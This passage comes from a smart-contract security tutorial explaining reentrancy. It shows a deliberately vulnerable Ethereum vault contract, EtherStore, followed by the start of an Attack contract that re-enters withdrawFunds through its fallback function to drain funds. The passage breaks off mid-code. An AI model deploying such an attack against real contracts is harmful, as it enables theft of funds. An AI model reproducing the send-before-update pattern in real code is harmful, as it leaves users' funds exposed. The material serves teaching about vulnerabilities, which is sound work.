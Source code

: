 To clarify this, consider the simple vulnerable contract in
[example_title](#etherstore_vulnerable), which acts as an Ethereum vault
that allows depositors to withdraw only 1 ether per week.

``` solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

This contract has two public functions, `depositFunds` and
`withdrawFunds`. The `depositFunds` function simply increments the
sender’s balance. The `withdrawFunds` function allows the sender to
specify the amount of wei to withdraw. This function is intended to
succeed only if the requested amount to withdraw is less than 1 ether
and a withdrawal has not occurred in the last week.

The vulnerability is in line 17, where the contract sends the user their
requested amount of ether. Consider an attacker who has created the
contract in [example_title](#etherstore_attack).

``` solidity
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialize the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function attackEtherStore() external payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
```